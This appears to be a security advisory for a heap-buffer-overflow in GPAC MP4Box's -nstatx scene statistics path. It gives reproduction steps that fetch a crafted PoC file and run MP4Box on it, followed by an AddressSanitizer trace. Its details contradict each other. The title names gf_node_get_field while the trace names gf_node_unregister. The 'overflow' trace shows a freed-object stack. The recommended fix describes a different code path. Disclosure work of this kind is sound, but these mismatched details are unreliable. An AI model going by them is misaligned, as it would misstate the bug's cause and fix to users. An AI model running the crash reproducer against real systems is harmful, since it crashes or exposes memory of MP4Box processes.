



# Vuln: GPAC MP4Box Heap-Buffer-Overflow in gf_node_get_field

**Project:** gpac/gpac (https://github.com/gpac/gpac)  
**Version:** Vulnerable at commit `f1219cde` (master, 2026-07-25), fixed after issue closure (2026-07-28)  
**Date:** 2026-07-27  
**Severity:** MEDIUM  
**CWE:** CWE-122 - Heap-based Buffer Overflow  

---

## Affected File

```text
scenegraph/base_scenegraph.c:749 (gf_node_unregister)
scene_manager/scene_stats.c:470 (StatNodeGraph)
applications/mp4box/filedump.c:463 (trigger path via -nstatx)
```

## Root Cause

GPAC does not properly validate node references during scene graph statistics traversal. When MP4Box processes a crafted MP4 file with `-nstatx`, the recursive `StatNodeGraph` function calls `gf_node_unregister` on a node whose backing allocation has already been freed or is out of bounds, causing a heap-buffer-overflow read of 8 bytes past the end of the object.

## Steps to Reproduce

```bash
git clone https://github.com/gpac/gpac.git gpac-vuln
cd gpac-vuln
git checkout f1219cde

sudo apt install -y zlib1g-dev build-essential

./configure --enable-sanitizer
make -j"$(nproc)"

curl -L -o poc_26_nstatx.zip \
  https://github.com/user-attachments/files/30400895/poc_26_nstatx.zip
python3 -c "import zipfile; zipfile.ZipFile('poc_26_nstatx.zip').extractall('.')"

./bin/gcc/MP4Box -nstatx poc_26_nstatx
```

Expected result on the vulnerable commit:

```text
==1243==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x504000002580 at pc 0x7834219ee381 bp 0x7fff0610b440 sp 0x7fff0610b430
READ of size 8 at 0x504000002580 thread T0
    #0 0x7834219ee380 in gf_node_unregister scenegraph/base_scenegraph.c:749
    #1 0x7834223f9767 in StatNodeGraph scene_manager/scene_stats.c:470
    #2 0x7834223fa580 in StatNodeGraph scene_manager/scene_stats.c:450
    #3 0x7834223fa50b in StatNodeGraph scene_manager/scene_stats.c:455
    #4 0x7834223fa50b in StatNodeGraph scene_manager/scene_stats.c:455
    #5 0x7834223fa50b in StatNodeGraph scene_manager/scene_stats.c:455
    #6 0x5727180a5eb8 in dump_isom_scene_stats /home/ricky_1208/gpac_env/gpac-src/applications/mp4box/filedump.c:463
    #7 0x572718092325 in mp4box_main /home/ricky_1208/gpac_env/gpac-src/applications/mp4box/mp4box.c:6667
    #8 0x78341f22a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #9 0x78341f22a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #10 0x572718068354 in _start (/home/ricky_1208/gpac_env/bin_asan/MP4Box+0xb0354)

0x504000002580 is located 0 bytes after 48-byte region [0x504000002550,0x504000002580)
freed by thread T0 here:
    #0 ... in free .../asan_malloc_linux.cpp:52
    #1 ... in gf_node_unregister scenegraph/base_scenegraph.c:801
    #2 ... in StatNodeGraph scene_manager/scene_stats.c:470

previously allocated by thread T0 here:
    #0 ... in malloc .../asan_malloc_linux.cpp:69
    #1 ... in MorphShape_Create scenegraph/mpeg4_nodes.c:33479
    #2 ... in gf_sg_mpeg4_node_new scenegraph/mpeg4_nodes.c:37056
    #3 ... in gf_node_new scenegraph/base_scenegraph.c:2079

SUMMARY: AddressSanitizer: heap-buffer-overflow scenegraph/base_scenegraph.c:749 in gf_node_unregister
==1243==ABORTING
```





The public issue for this bug is:

- https://github.com/gpac/gpac/issues/3816



## Impact

A crafted MP4 file can trigger a heap-buffer-overflow read in MP4Box when using the `-nstatx` option, potentially leading to information disclosure or a process crash resulting in denial of service.

## Recommended Fix

Apply the upstream fix that validates field index bounds before calling `gf_node_get_field` during scene command application.

---

## References

- GPAC issue #3816: https://github.com/gpac/gpac/issues/3816
